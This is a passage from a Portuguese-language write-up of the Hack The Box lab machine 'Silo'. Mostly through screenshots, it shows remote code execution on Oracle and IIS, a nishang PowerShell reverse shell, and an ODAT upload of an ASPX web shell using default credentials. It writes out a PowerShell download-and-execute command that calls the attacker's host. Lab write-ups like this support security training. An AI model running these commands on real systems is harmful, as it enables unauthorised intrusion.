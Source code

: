 Ai está...

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_sql11.png)

Confirmando no browser!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_sql12.png)

Testando RCE

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_sql13.png)

Temos RCE!!!!

Agora é só pegarmos um Reverse Shell, para isso vamos utilizar o `nishang`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_nis.png)

> https://github.com/samratashok/nishang

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_nis1.png)

Passamos o `Invoke-PowerShellTcp.ps1` para nossa pasta de trabalho e adicionamos a chamada da função Reverse Shell com nosso IP

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_nis2.png)

Ai está, pronto para ser usado e me dar um reverse shell

Agora executamos no Browser o comando para fazer a chamada dele (lembrar de ter o python web server aberto e o nc na porta 443)

`powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.16.117/Invoke-PowerShellTcp.ps1')`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_nis3.png)

Recebemos a reverse shell

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_nis4.png)

Aqui está... bom agora vamos fazer de maneira mais automatizada esse upload, o próprio ODAT nos fornece essa possibilidade

### ODAT

Primeiro testamos fazer o upload do arquivo, do mesmo modo que foi feito antes, o mesmo arquivo, mas agora direto a partir da ODAT

`python3 odat.py utlfile -s 10.10.10.82 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot silo.aspx /usr/share/webshells/aspx/cmdasp.aspx`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_od.png)

Confirmando, ai está o arquivo upado
